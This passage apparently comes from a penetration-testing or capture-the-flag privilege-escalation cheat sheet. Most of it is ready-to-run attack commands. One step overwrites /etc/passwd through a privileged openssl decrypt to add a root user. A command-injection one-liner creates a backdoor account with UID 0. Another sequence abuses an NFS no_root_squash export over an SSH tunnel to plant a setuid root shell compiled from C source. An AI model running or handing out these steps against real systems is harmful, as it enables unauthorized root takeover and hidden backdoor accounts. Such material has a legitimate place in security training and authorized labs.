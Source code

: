 Now, create a custom `key.pem` and `cert.pem` with openssl:

```console
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

Encrypt the new custom passwd:

```console
openssl smime -encrypt -aes256 -in /tmp/passwd.custom -binary -outform DER -out /tmp/passwd.enc /tmp/cert.pem
```

Now, decrypt the custom passwd overwritting in the process the real one (`/etc/passwd`):

```console
cd /
/home/ldapuser1/openssl smime -decrypt -in /tmp/passwd.enc -inform DER -inkey /tmp/key.pem -out /etc/passwd
```

And finally, just login with the user created with root privileges by using `customPassword`:

```console
su - ceso
```

#### Command web injection: add user

```console
/usr/sbin/useradd c350 -u 4242 -g root -m -d /home/c350 -s /bin/bash -p $(echo pelota123 | /usr/bin/openssl passwd -1 -stdin) ; sed 's/:4242:0:/:0:0:/' /etc/passwd -i
```

#### NFS; no_root_squash,insecure,rw

If `/etc/exports` has a line like:

```console
/srv/pelota 192.168.42.0/24(insecure,rw)
/srv/pelota 127.0.0.1/32(no_root_squash,insecure,rw)
```

NFS is being exported and you and you have ssh access to the machine.
From your attacker machine **while logged as root** user run:

```console
ssh -f -N megumin@192.168.42.43 -L 2049:127.0.0.1:2049
mount -t nfs 127.0.0.1:/srv/pelota my_share
cd my_share
cat > shell.c<<EOF
#include <unistd.h>
int main(){
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
EOF
gcc shell.c -o shell
chmod u+s shell
```
